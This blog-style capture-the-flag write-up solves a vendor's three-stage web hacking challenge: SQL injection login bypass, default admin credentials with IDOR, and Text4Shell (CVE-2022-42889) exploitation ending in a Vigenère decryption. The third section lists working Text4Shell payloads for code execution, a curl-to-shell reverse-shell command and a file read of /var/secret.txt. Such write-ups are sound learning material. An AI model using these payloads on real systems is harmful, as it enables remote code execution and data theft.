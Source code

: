 ```yaml
---
title: Quintor H4ck Y0ur Way 1n Challenge Write-up
date: 2023-10-16 09:00:00 +0100
categories: [CTF]
tags: [ctf]     # TAG names should always be lowercase
math: true
---
```


## Introduction
At Techorama 2023 in Utrecht, the Netherlands, Quintor had an exhibition stand. Representatives of Quintor were giving out leaflets with a challenge description on it, where you're able to win a series of prizes, with the last challenge allowing you to win a Flipper Zero.

The first two challenges were able to be completed on your phone. The third challenge is a bit more difficult, and could be completed at a later time.

The challenge description reads:

> Software development and security go hand in hand these days. But how much do you know about security and hacking?
Take the challenge at [hackyourwayin.quintor.nl](https://hackyourwayin.quintor.nl/), win goodies and have a chance to win the ultimate hacking tool: the Flipper Zero.
Need hints? Visit our exhibition stand, maybe we can help you...

## Challenge 1

![Intro screen](/assets/img/introscreen.jpg){: w="667" h="233" }

After filling in your email address, you are presented with a login screen. The login screen has a single email address field. Below, the basics of SQL injection are explained. The challenge is to bypass the login screen.

Since we're dealing with a simple intro example, I tried the most basic SQL injection: `' OR 1=1 --`. This is a simple SQL injection that will always return true for the expression in the query's `WHERE`-clause, and thus bypass the login screen. This worked, and I was presented the following response.

![Challenge 1](/assets/img/challenge1.JPG){: w="667" h="233" }

Following the link in the response we get the following message

> Congratulations!
You have won a webcam cover!
Pick it up at the Quintor exhibition stand by saying to someone "I want that webcam cover".

## Challenge 2

Challenge 2 is another login screen, but this time with a password field. Below there's a hint referring to [https://owasp.org/Top10/A05_2021-Security_Misconfiguration/](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)

OWASP A05:2021 – Security Misconfiguration is a very broad category. It can be anything from a misconfigured web server to a misconfigured database. In this case, since we're dealing with a login form, I'm assuming a default username and password are used. I tried the following combinations:

| Username | Password   |
| -------- | ---------- |
| admin    | 123456     |
| admin    | quintor    |
| admin    | quintor123 |
| admin    | admin      | 

The last one worked! We're presented with the following view for URL [https://hackyourwayin.quintor.nl/user/1](https://hackyourwayin.quintor.nl/user/1).

![User 1](/assets/img/user1.JPG){: w="667" h="233" }

"IDOR" stands for Insecure Direct Object References. It's a vulnerability where an attacker can access objects (files, directories, database records, etc.) directly, without proper authorization. In our case, we are looking at a user profile with the URL ending with `"/user/1"``. By incrementing the id with +1, we'll maybe get futher.

And indeed, we get the following view for URL [https://hackyourwayin.quintor.nl/user/3](https://hackyourwayin.quintor.nl/user/3).

> Congratulations!
You have won the USB hub!
Pick it up at the Quintor exhibition stand by saying "Gimme the goodies" to someone.
From here it gets less easy. We recommend that you continue on a laptop or desktop via this URL: https://hackyourwayin.quintor.nl/sbom
You can also complete this level at a later time. If you have won a prize, we will contact you via the email address you provided.

## Challenge 3

This page presents you with a search bar, allowing you to search through a SBOM. SBOM stands for Software Bill of Materials. It's a list of all the software components/dependencies used in a project. 

![SBOM](/assets/img/SBOM.jpg){: w="667" h="233" }

The image below is a screenshot of the software [dependency track](https://dependencytrack.org/). Dependency track is a continuous SBOM analysis platform. It allows you to upload a SBOM, and it will check for known vulnerabilities in the software components used in the project.

![Dependency track](/assets/img/dependency-track.png){: w="667" h="233" }

The image shows that specifically `commons-text` version 1.9 from `org.apache.commons` has a vulnerability. A quick Google search reveals that for this version, it must be CVE-2022-42889, also known as *Text4Shell*. 

>This vulnerability is nested in the `StringSubstituor` class of the library, which performs variable interpolation. The standard interpolation format is `${prefix:name}`, where the prefix is a lookup performing interpolation. If the application uses some default lookups, namely `script`, `dns`, or `url`, they are interpolated by default due to a design flaw and allow for remote code execution (RCE) or contact with untrusted remote servers when processing malicious input. 

[Source](https://bell-sw.com/blog/cve-2022-42889-a-critical-vulnerability-in-apache-commons-text-library/)

Additonally, make note of the changed url in the Dependency Track screenshot, pointing us towards `/var/secret.txt`.

The challenge page also contains a 'Result' section, containging a decrypt form asking for a *Cypher text* and a key. 

![Decrypt form](/assets/img/challenge3-result.jpg){: w="667" h="233" }

After doing a bit of reading on the vuulnerability, I tried to get some output from the SBOM search bar. I tried the following payloads:

| Payload | Result |
| -------- | ---------- |
| `${java:version}` | `No dependency found with name: Java version 17.0.8`
| `${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/pwn')}` | `No dependency found with name: Process[pid=19120, exitValue="not exited"]`
| `${script:javascript:7*7}` | `No dependency found with name: 49`
| `${url:UTF-8:https://https://nvid.nist.gov/vuln/detail/CVE-2022-42889}` | HTTP 401 Unauthorized

I initially put a lot of effort into getting a reverse shell working, in order to `cat` /var/secret.txt. However, it seemed that either HTTP 401 Unauthorized or `Process[pid=19120, exitValue="not exited"]` would always be returned. I eventually even employed [Reverse Shell as a Service](https://github.com/lukechilds/reverse-shell), thinking it was a failure in my pipe into `bash` or `sh`.

```javascript
${script:javascript:java.lang.Runtime.getRuntime().exec('curl https://reverse-shell.sh/my.ip:1337 | sh')}
```

After a short while, I decided to take a step back and look into other prefixes for the Apache Commons Text's StringSubstitutor format [here](https://www.dontpanicblog.co.uk/2023/03/11/cve-2022-42889-text4shell/).

Here, I noticed that there is a specific prefix for reading files: `${file:UTF8:`. I, of course, tried the payload `${file:UTF-8:/var/secret.txt}` and got the following response:

![SBOM](/assets/img/SBOM.jpg){: w="667" h="233" }

```
Wynrewtynmrkr, au bmom rv sbiyesewy ahvqvipwy ttxulwaw!
```

After [dJulkalendern 2022](/posts/djulkalendern-2022-write-up/), this is more familiar territory. I employed [CyberChef](https://gchq.github.io/CyberChef/) to attempt a decode, using the *ROT13* recipe, and clicking on the rotation amount to see if I got something comprehensible, but to no avail.

Eventually, after some trial-and-error, the text seems to be encrypted with a Vigenère cipher. I used [dcode.fr](https://www.dcode.fr/vigenere-cipher) to decrypt the text, using the key `quintor`.

The form in the challenge's page already allowed you to decrypt the message using this key. Knowledge about the existence of the Vigenère cipher was not required to complete the challenge.

![Result](/assets/img/challenge3-completed.jpg){: w="667" h="233" }

Translated:
> Congratulations, you have successfully completed the challenge!

This final answer sentence would automatically be filled into the last form where you can send your result to Quintor. I'll eventually update this blogpost when I know if I won the Flipper Zero or not!

## Reflection
Especially the third challenge was a lot of fun. I actually got to learn about a more recent vulnerability in a popular library, and how to exploit it within a safe environment. It's always more fun to actually apply a vulnerability, instead of just reading about it or doing all the required work to set up some docker container from a PoC repository on GitHub.

What really threw me off is that, in the upper-right corner in the screenshot of Dependency Track, showed there were 2 vulnerabilities. Since only some components out of 109 were visible, I was also looking for other vulnerable packages, like the `log4j-core` or `log4j-api` component. While one of these were present, the version wasn't vulnerable. I'm curious as to what the other vulnerability is, but I'm not sure if I'll ever find out.

Overall, I don't have a lot of experience with operations and security, so I'm glad I got to learn a bit more about the existence of this vulnerability, Dependency Track, and some terminology like *SBOM* and *IDOR*. 

